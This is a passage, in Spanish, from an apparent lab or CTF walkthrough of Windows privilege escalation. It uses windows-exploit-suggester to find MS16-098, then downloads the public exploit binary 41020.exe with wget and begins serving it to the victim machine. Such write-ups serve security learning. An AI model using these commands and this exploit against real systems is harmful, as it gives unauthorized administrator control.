 Vamos a actualizar la base de vulnerabilidades con el parámetro `-u`

```bash
python2 windows-exploit-suggester.py -u
```

Luego de obtener nuestra base de vulnerabilidades al día, vamos a ejecutar el comando `systeminfo` en la máquina víctima y copiamos el output en un archivo de nuestra máquina denominado `systeminfo.txt`

```bash
vim systeminfo.txt
```

Debido a que el exploit se encuentra en `python2`, procedemos a generar un entorno virtualizado por medio de la utilidad `virtualenv` y activarlo por medio `source`.


```bash
virtualenv -p python2 privesc; source privesc/bin/activate
```

Para que el exploit funcione correctamente, vamos a desinstalar la versión actual de `xlrd` y realizamos la instalación de `xlrd==1.2.0`, todo por medio de `pip2`

```bash
pip2 uninstall xlrd; pip2 install xlrd==1.2.0
```

Ahora que ya tenemos todos los requisitos, podemos ejecutar el script asignando la base de vulnerabilidades actualizada anteriormente con el parámetro `-d` y la información extraída del `systeminfo` ejecutada en la máquina víctima.
  
```bash
python2 windows-exploit-suggester.py -d 2022-08-04-mssb.xls -i systeminfo.txt
```

En el output del exploit, nos muestra las vulnerabilidades que pueden ser potencialmente explotadas, según la información suministrada en la enumeración de la máquina víctima, en este caso nos centramos en la vulnerabilidad `MS16-098`.

```bash
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
```

## ESCALADA POR MS16-098

Descargamos el binario [41020.exe](https://github.com/offensive-security/exploitdb-bin-sploits/blob/master/bin-sploits/41020.exe) de [Offensive Security](https://github.com/offensive-security) que nos va a permitir tener acceso a un usuario con permisos de administración en la máquina víctima.

```bash
wget https://github.com/offensive-security/exploitdb-bin-sploits/blob/master/bin-sploits/41020.exe
```

Generamos un servicio `http` con `python` por el puerto `80` para cargar el binario a la máquina víctima.
